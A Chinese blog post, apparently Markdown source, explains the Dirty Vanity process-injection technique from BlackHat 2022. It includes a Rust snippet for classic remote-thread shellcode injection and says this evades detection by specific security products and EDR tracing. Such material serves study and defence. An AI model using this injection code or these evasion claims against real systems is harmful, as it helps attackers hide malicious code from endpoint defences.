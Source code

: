 ```yaml
---
title: Dirty Vanity 来自N年前的注入手法
date: 2025-02-14 23:34:37
tags: 我与EDR
---
```


# Dirty Vanity 来自N年前的注入手法

## 前言

这篇文章是我在学习DI在2022年BlackHat会议上所讲的内容，并且将它写成了rust程序。其内容十分简单但是shellcode中有一个坑需要注意。（本文是酒后所写 如有问题等我酒醒了再修

> 别问我为什么情人节在写博客 因为陪对象看电影看精神了

## 理论分析

让我们来回顾一下常规的注入手法，VirtuallAllocEX-WriteProcessMemory-CreateRemoteThreat。好的，我们成功的在目标虚拟内存划分空间写入shellcode并且创建远程线程。如下图所示

![](../img/Screen-o74VDENP.png)

很好，你的行为已经完全被EDR所窥视了。目标进程分配内存，写入shellcode，创建远程线程。demo代码如下

```rust
let handle = OpenProcess(
            PROCESS_ALL_ACCESS,
            FALSE,
            pid);
let memory_addr = VirtualAllocEx(
            handle,
            null(),
            shellcode_length,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE,
        );
let res = WriteProcessMemory(
            handle,
            memory_addr,
            shellcode.as_ptr().cast(),
            shellcode_length,
            null_mut(),
        );
let res = VirtualProtectEx(
            handle,
            memory_addr,
            shellcode_length,
            PAGE_EXECUTE,
            &mut old);
let func = transmute(memory_addr);
let thread = CreateRemoteThread(handle, null(), 0, func, null(), 0, null_mut());

```

标准的远程线程注入（此方法可以绕过火绒的注入检测。。。以及SEP的 我好想吐槽啊

而Dirty Vanity则是采用了RtlCloneUserProcess，将最后一步CreateRemoteThreat变为RtlCreateProcessReflection  EDR的追踪将会丢失最后一步。好的已经完成幽灵写入了。fork后的进程EDR是无法正常追溯的。如下图所示![](../img/Screen-b8dBhZhV.png)
